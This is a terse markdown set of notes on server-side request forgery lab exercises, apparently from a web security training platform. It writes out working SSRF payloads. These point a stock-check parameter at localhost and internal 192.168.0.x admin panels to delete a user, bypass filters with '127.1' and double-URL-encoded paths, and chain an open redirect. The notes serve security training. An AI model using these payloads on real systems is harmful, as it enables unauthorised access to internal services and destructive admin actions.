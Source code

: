 # SSRF

---


## lab 1


- > open product and click check stock
  - > in request you find ``stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1``
    > change it to ``stockApi=http://localhost/admin&storeId=3``
    > stockApi=http://localhost/admin/delete?username=carlos&storeId=3



---

## lab 2


- > ``http://192.168.0.1:8080/product/stock/check?productId=4&storeId=1``   send it to intruder 182.168.0.``1``
  > found 192.168.0.239   fond it **``404``**
- > http://192.168.0.239:8080/admin
  > http://192.168.0.239:8080/admin/delete?username=carlos




---


## lab 3


- > need ``colaborator``




---


## lab 4


- > try to chnge url to ``http://127.0.0.1/admin`` and it blocked
  > try ``http://127.1/`` it work
  > try ``http://127.1/admin`` it blocked again
  > try ``http://127.1/%2561dmin``
  > http://127.1/%2561dmin/delete?username=carlos




---

## lab 5

- > **/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos**
  











    
